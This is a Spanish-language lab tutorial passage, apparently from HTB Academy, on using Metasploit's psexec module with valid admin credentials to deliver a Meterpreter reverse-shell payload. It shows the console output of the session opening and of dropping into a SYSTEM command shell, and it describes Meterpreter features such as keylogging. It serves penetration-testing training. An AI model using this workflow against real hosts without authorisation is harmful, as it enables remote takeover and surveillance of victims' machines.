 #### Automatización de Payloads y Entrega con Metasploit

```bash
msf6 exploit(windows/smb/psexec) > exploit
```

```less
[*] Iniciado el manejador TCP inverso en 10.10.14.222:4444 
[*] 10.129.180.71:445 - Conectando al servidor...
[*] 10.129.180.71:445 - Autenticando a 10.129.180.71:445 como usuario 'htb-student'...
[*] 10.129.180.71:445 - Seleccionando el objetivo de PowerShell
[*] 10.129.180.71:445 - Ejecutando el payload...
[+] 10.129.180.71:445 - El inicio del servicio ha excedido el tiempo de espera, OK si se ejecuta un comando o ejecutable no de servicio...
[*] Enviando la etapa (175174 bytes) a 10.129.180.71
[*] Sesión de Meterpreter 1 abierta (10.10.14.222:4444 -> 10.129.180.71:49675) a las 2021-09-13 17:43:41 +0000

meterpreter > 
```

Después de emitir el comando `exploit`, se ejecuta el exploit y se intenta entregar el payload en el objetivo utilizando el payload de Meterpreter. Metasploit informa cada paso de este proceso, como se ve en la salida. Sabemos que esto fue exitoso porque se envió una etapa con éxito, lo que estableció una sesión de shell de Meterpreter (meterpreter >) y una sesión de shell a nivel de sistema. Ten en cuenta que Meterpreter es un payload que utiliza inyección DLL en memoria para establecer de manera sigilosa un canal de comunicación entre una máquina de ataque y un objetivo. Las credenciales adecuadas y el vector de ataque pueden darnos la capacidad de cargar y descargar archivos, ejecutar comandos del sistema, ejecutar un keylogger, crear/iniciar/detener servicios, gestionar procesos, y más.

En este caso, como se detalla en la documentación del módulo de Rapid 7: "Este módulo utiliza un nombre de usuario y contraseña de administrador válidos (o hash de contraseña) para ejecutar un payload arbitrario. Este módulo es similar a la utilidad "psexec" proporcionada por SysInternals. Este módulo ahora puede limpiarse después de sí mismo. El servicio creado por esta herramienta utiliza un nombre y descripción elegidos al azar."

Al igual que otros intérpretes de lenguaje de comandos (Bash, PowerShell, ksh, etc.), las sesiones de shell de Meterpreter nos permiten emitir un conjunto de comandos que podemos usar para interactuar con el sistema objetivo. Podemos usar `?` para ver una lista de comandos que podemos utilizar. Notaremos limitaciones con la shell de Meterpreter, por lo que es bueno intentar usar el comando `shell` para acceder a una shell a nivel de sistema si necesitamos trabajar con el conjunto completo de comandos nativos de nuestro objetivo.

### **Shell Interactiva**

```shell-session
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```
